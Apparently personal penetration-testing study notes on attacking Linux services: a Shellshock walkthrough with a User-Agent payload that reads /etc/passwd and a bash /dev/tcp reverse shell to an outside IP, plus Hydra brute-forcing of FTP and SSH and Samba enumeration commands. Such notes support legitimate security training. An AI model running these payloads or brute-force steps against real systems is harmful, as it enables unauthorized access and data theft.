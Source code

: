 - Based on Linux kernel
- Linux OS = GNU/Linux
- Typically used for servers
- Common services
	- Apache Web Servers: 80/443
	- SSH: 22
	- FTP: 21
	- SAMBA: 445

## Shellshock (CVE-2014-6271)
- Family of vulnerabilities in Bash shell (since v1.3)
- Caused when Bash mistakenly executed trailing commands after a series of characters: (){;:};.
- Apache web servers configured to run CGI scirpt or .sh scripts are also vulnerable
- Need to locate an input vector or script that allows to communicate with Bash

### Exploitation
- Run `nmap` scan with ![[Nmap Scripts#Shellshock]] 
- Check if the target is vulnerable
- If yes, start Burp and proxy the browser traffic through it
- Go to the .cgi page and send that request to Repeater in Burp.
- Remove the `User-Agent` content and enter special characters `() { :; }; echo; echo; /bin/bash -c cat /etc/passwd`
- Start a #tools/utility/nc listener `nc -nlvp 1234`
- Change the payload to:
	```
	() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1'
	```
- And there you get a reverse shell
- The same can be done with metasploit ![[Modules#Shellshock]]
## FTP
- Check for `anonymous` access
- There are different implementation of FTP like VSFTP, ProFTP and the vulnerabilities depend on the version

### Exploitation
- Run an #tools/multi/nmap scan to check the version of FTP running on the server
- Bruteforce credentials ![[Hydra#FTP]]
## SSH
- Go brute force!
![[Hydra#SSH]]

## SAMBA
- Network file sharing protocol that is used to facilitate the sharing of files and peripherals on LAN
- Linux implementation of SMB
- Does not come with Linux by default, so it needs to be installed
- This is not a common service running on a linux machine
- Uses username/password authentication.
- Use tool #tools/enum/smb/smbclient  and #tools/enum/smb/SMBMap 

### Exploitation
- Run #tools/multi/nmap to look for ports open assoiciated with SMB/SAMBA
- Run #tools/bruteforce/hydra to brute force username/password pair
- Start #tools/enum/smb/SMBMap 
	```
	smbmap -H <target_ip> -u <username> -p <password>
	```
- Start #tools/enum/smb/smbclient to get list of shares
	```
	smbvlient -L <target_ip> -U <username>
	```
- Run the command to connect to the target machine via SMB
	```
	smbclient //<target_ip>/<share> -U <username>
	```
- You can use #tools/enum/smb/enum4linux to get more detailed information
	```
	enum4linux -a -u <username> -p <password> <targetip>
	````